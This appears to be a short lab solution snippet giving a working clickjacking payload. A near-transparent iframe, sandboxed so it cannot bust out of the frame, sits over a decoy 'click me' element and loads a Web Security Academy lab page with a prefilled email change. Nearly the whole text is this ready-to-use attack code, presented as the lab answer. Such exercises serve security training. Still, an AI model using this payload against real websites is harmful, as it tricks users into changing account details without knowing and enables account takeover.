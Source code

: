#use the following HTML
<style>
        iframe {
            position: relative;
            width: 500px;
            height: 700px;
            opacity: 0.1;
            z-index: 2;
        }

        div {
            position: absolute;
            top: 380px;
            left: 60px;
            z-index: 1;
        }
    </style>

    <div>click me</div>
    <iframe src="https://acc41fbf1f31aca0801d00bf00f6007f.web-security-academy.net/email?email=teste%40teste.com" sandbox="allow-forms"></iframe>